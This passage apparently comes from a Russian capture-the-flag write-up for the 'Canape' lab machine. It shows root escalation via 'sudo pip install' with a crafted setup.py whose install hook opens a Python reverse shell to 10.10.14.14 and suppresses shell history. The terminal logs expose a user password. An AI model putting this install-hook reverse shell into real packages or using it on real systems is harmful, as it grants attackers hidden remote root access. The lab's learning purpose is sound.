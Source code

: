 ```python
		'install': Exploit
	}
)
```

```text
homer@canape:/dev/shm$ ls
setup.py

homer@canape:/dev/shm$ sudo -H /usr/bin/pip install .
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp
Processing /dev/shm
Installing collected packages: UNKNOWN
  Running setup.py install for UNKNOWN ... done
Successfully installed UNKNOWN
```

### root.txt
```text
homer@canape:/dev/shm$ cat PWNED
928c3df1????????????????????????
```

2\. Можно построить полноценный reverse-shell:
```python
# setup.py

from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
	def run(self):
		import socket, os, pty
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.10.14.14', 1337))
		os.dup2(s.fileno(), 0)
		os.dup2(s.fileno(), 1)
		os.dup2(s.fileno(), 2)
		os.putenv('HISTFILE', '/dev/null')
		pty.spawn('/bin/bash')
		s.close()

setup(
	cmdclass={
		"install": Exploit
	}
)
```

```text
homer@canape:/dev/shm$ ls
setup.py

homer@canape:/dev/shm$ sudo -H /usr/bin/pip install .
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp
Processing /dev/shm
Installing collected packages: UNKNOWN
  Running setup.py install for UNKNOWN ... -
```
